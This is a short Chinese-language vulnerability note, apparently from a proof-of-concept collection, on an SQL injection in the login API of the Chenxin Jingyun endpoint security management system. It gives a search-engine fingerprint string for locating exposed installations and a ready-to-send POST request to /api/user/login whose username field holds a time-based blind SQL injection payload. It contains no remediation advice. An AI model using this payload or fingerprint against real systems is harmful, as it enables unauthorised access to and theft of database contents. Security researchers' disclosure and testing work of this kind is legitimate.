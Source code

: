 # 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

辰信领创 辰信景云终端安全管理系统

## 网络测绘

```
"辰信景云终端安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828164335170](images/image-20230828164335170.png)

验证POC

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![image-20230828164347102](images/image-20230828164347102.png)